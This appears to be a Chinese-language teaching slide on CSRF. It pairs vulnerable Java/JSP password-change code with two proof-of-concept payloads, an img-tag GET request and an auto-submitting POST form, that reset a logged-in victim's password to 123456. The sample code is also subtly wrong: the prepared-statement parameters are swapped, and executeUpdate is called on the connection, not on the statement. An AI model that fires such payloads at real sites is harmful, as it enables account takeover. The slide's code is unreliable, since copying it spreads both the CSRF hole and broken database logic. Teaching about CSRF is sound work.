

# CSRF缺陷代码
A站点：
String user = session.getAttribute(“user”);
String pass = request.getParameter(“pass”);
PreparedStatement ps = con.prepareStatement(“update UserTB set password=?  Where user=?”);
 ps.setString(1,user);
 ps.setString(2,pass);
 con.executeUpdate();

恶意站点上的代码
GET方式 POC
<img src=http://siteA/updateuser.jsp?pass=123456>
POST方式POC
<form action=http://siteA/updateuser.jsp method=POST>
  <input type="text" name="pass" value="123456" />
</form>
<script> document.forms[0].submit(); </script>